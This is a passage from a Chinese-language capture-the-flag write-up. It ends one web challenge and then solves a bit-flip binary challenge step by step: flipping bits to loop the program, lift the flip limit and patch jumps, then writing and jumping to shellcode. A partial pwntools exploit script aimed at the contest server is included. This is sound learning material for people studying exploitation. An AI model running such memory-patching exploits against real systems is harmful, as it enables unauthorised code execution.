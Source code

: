 ```js
});

curl.on("error", curl.close.bind(curl));
curl.perform();
```

关于 `accessAdmin.js` 的 `HTTPPROXYTUNNEL` 参数, 我失败了几个小时发现是因为我没启用 HTTP Proxy Tunnel 参数...
根据 [MDN 文档](https://developer.mozilla.org/en-US/docs/Web/HTTP/Proxy_servers_and_tunneling)：

HTTP tunneling is using a protocol of higher level (HTTP) to transport a lower level protocol (TCP).

The HTTP protocol specifies a request method called `CONNECT`. 
It starts two-way communications with the requested resource and can be used to open a tunnel. This is how a client behind an HTTP proxy can access websites using SSL (i.e. HTTPS, port 443). 

(同理，使 client behind an HTTP2 over TLS proxy can access websites without using SSL.)

执行 `node getSecret.js && node accessAdmin.js` 即可得到 flag。

## 超精准的宇宙射线模拟器

最开始实在是没有思路，就在 Google 上搜一搜，结果还真的给我搜到原题了。

原题 writeup: https://ctftime.org/writeup/7894
此 Writeup 的思路总结如下：

1. 使程序循环运作
2. 突破 mprotect 防御
3. 绕过翻转比特 <= 7 的限制
4. 使左移运算无效
5. 写入 shellcode、跳转到 shellcode 所在地址。

经过我几个小时的调试， 总结思路如下：

1. 输入 `0x401296 6` 使程序循环 (这个纯粹是我 fuzz 出来的 www, 会使本来的 `call exit` 变成 `call _dl_relocate_static_pie`)
2. 输入 `0x401260 6` 使 `cmp eax, 0x7` 变成 `cmp eax,0x47`，<= 7 的比特翻转限制变成 <= 71 了！
3. 输入 `0x401279 1` 使 `shl edx, cl` 下一行 `mov eax, edx` 变成 `mov edx, edx` 使 left shift 无效。
4. 输入 `0x401262 55` 使 `jg 0x40129a` 变成 `jg 0x401263` 使 cmp 检查无效，无论检查为真或假，都会继续执行下一行。
5. 找到一个合适的位置写入 shellcode，`0x4011b6` 就挺不错的。由于地址内容不为空，所以需要 xor 它们本身的值来清除内容。
6. 往 `0x4011b6` 写入 shellcode。
7. 输入 `0x4012a7 78` 使循环用的 `jmp 0x4011f0` 变成 `jmp 0x4011b6` 跳转到 shellcode 所在位置。

利用脚本如下：

```python
from pwn import *
from sys import *
from time import sleep

if '-d' in argv:
    context.log_level=1

if '-r' in argv:
    s = remote('202.38.93.111', 10231)
    s.send('<token here ;3>\n')
else:
    s = process('./bitflip')

e=ELF('./bitflip')


sleep(.4)
s.send('0x401296 6' + '\n')    
log.info('Binary looped!')

sleep(.4)
s.send('0x401260 6' + '\n')    
```